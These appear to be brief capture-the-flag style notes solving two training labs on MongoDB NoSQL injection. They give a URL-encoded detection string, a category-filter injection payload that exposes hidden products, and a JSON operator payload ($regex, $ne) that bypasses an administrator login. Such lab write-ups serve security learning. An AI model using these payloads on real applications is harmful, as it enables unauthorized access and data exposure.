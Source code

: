 ```
Lab: Detecting NoSQL injection

APPRENTICE

The product category filter for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.

To solve the lab, perform a NoSQL injection attack that causes the application to display unreleased products.
```

* Payload use to detect : `'%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00`
* Payload to exploit the vuln : `category=Clothing%2c+shoes+and+accessories%27%7c%7c%31%7c%7c%27`

```
Lab: Exploiting NoSQL operator injection to bypass authentication

APPRENTICE

The login functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection using MongoDB operators.

To solve the lab, log into the application as the administrator user.

You can log in to your own account using the following credentials: wiener:peter. 
```

* Payload to exploit the vuln : `{"username":{"$regex":"ad.*"},"password":{"$ne":""}} `
